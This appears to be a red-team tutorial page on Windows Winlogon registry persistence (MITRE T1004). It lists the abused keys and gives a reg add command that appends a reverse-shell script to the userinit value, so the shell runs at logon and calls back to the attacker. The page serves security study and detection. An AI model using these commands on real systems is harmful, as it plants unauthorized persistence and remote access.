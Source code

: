 # Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence \(SAS\) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```text
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```text
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](../../.gitbook/assets/image%20%2821%29.png)

Let's now add an additional item shell.cmd \(a simple reverse netcat shell\) to the list that we want to be launched when the compromised machine reboots:

```text
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](../../.gitbook/assets/image%20%28433%29.png)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](../../.gitbook/assets/image%20%28346%29.png)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}

